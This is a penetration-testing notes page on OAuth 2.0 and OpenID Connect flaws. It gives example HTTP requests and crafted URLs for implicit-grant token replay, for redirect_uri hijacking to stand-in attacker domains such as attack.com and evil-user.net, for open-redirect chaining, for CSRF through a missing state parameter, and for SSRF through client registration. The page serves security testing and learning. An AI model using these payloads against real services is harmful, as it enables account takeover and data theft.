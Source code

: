 ```yaml
---
title: "OAuth 2.0"
weight: 17
description: "Explore OAuth 2.0 authorization framework, its vulnerabilities, and common security flaws in penetration testing. Learn how to identify OAuth flow and prevent attacks."
---
```


# OAuth 2.0

{{< details summary="Introduction" >}}

**What is OAuth?**

* OAuth is a commonly used authorization framework that enables web applications to request limited access to a user's account on another application.

**How does OAuth 2.0 work?**

* **Client application** - The website that wants to access the user's data.
* **Resource owner** - The user whose data the client application wants to access.
* **OAuth service provider** - The website or application that controls the user's data and access to it. They support OAuth by providing an API for interacting with both an authorization server and a resource server.

{{< /details >}}

## Identifying OAuth authentication

* If you see an option to log in using your account from a different website, this is a strong indication that OAuth is being used.
* Regardless of which OAuth grant type is being used, the first request of the flow will always be a request to the `/authorization` endpoint containing a number of query parameters that are used specifically for OAuth. In particular, keep an eye out for the `client_id`, `redirect_uri`, and `response_type` parameters

### Recon

If using an external OAuth service, identify the provider by the hostname in the authorization request. Public API documentation typically provides detailed information, including endpoint names and configuration options. Try sending a request to the following standard endpoints:

* `/.well-known/oauth-authorization-server`
* `/.well-known/openid-configuration`

## Vulnerabilities

### Improper implementation of the implicit grant type

At the conclusion of the login process, the client application often sends the username and access token to the server via a `POST` request. The server then issues a session cookie, effectively completing the login and establishing the user session

```http
POST /authenticate HTTP/2
Host: 0a55005703e1680182bd7f6100b60068.web-security-academy.net
[..]

{"email":"lebron@cleveland.com","username":"lebron","token":"ckNqkfxB"}
```

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=OixJC365d0v7yaU1l1xEnCCtfnRZDhZe; Secure; HttpOnly; SameSite=None
```

Exploitation: repeat this request with an arbitrary account (changing email and username) and leaving the access token

### Account hijacking via redirect\_uri

Replace `redirect_uri` with a attacker controlled domain

```md
https://oauth-x.oauth-server.net/auth?client_id=xyz&redirect_uri=https://attack.com/oauth-callback&response_type=code&scope=openid profile email
```

{{< hint style=notes >}}
**Note**: using `state` or `nonce` protection does not necessarily prevent these attacks because an attacker can generate new values from their own browser.
{{< /hint >}}

**Flawed redirect\_uri validation**

```md
https://default-host.com@foo.evil-user.net
https://oauth-xxx-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
https://localhost.evil-user.net
```

**Chain vulns**&#x20;

If you are unable to successfully submit an external domain as the `redirect_uri` you can chain vulnerabilities like open redirect, xss etc.

1. Find open redirect

```md
https://server.net/post/next?path=https://attacker.com
```

2. Use this url as `redirect_uri`&#x20;

```md
https://oauth-xxx-server.com/?client_id=123&redirect_uri=https://server.net/post/next?path=https://attacker.com[...]
```

{{< hint style=tips >}}
Tip: the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, so you can use directory traversal tricks `https://client-app.com/oauth/callback/../../example/path`
{{< /hint >}}

### Flawed CSRF protection

if you notice that the authorization request does not send a `state` parameter, It potentially means that you can initiate an OAuth flow yourself before tricking a user's browser into completing it, similar to a traditional CSRF attack.

## OpenID Connect

### Identifying OpenID Connect

Look for the mandatory `openid` scope

### Unprotected dynamic client registration

1. Identify configuration file `/.well-known/openid-configuration` to get registration\_endpoint
2. Register your own client app. In the logo\_uri add a external url for SSRF

```http
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "application_type": "web",
    "client_name": "My Application",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "logo_uri": "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```

```http
HTTP/2 201 Created
[...]

{[...]"client_id":"aqFGUZgiQmXrUphoMV7i6","client_name":"My Application",[...]}
```

3. Make `GET /client/CLIENT-ID/logo` request and replace the `client_id`
